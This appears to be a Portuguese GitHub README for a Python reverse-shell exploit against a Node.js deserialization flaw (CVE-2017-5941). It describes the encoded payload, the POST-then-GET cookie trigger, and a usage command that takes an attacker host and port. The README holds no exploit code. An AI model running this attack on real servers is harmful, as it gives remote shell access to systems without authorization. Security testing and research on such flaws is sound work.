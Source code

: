 # NODEJSHELL - Exploit de reverse shell para desserialização em NodeJs (CVE-2017-5941)
O exploit gera de forma automática o payload de reverse shell que é encodado em decimal e depois em base64.
Depois disso esse payload é enviado através de uma requisição http POST que serializa o input do usuário e armazena em um cookie.
Então conseguimos o RCE acessando através de uma requisição GET.

Modo de uso:

```python3 nodejshell.py <lhost> <lport>```


**lhost**: seu endereço de IP local
**lport**: a porta em que você quer conectar a sua reverse shell

Depois disso você precisa só suprir algumas informações simples:

- Nome do parâmetro que irá enviar a payload pelo *POST*. (Somente necessário se o cookie não estiver já setado).
- Nome do cookie que irá ativar a payload pelo *GET*.

Feito isso, só ativar o seu **listener** preferido e esperar receber a conexão.

![alt text](njs1.png)
![alt text](njs2.png)
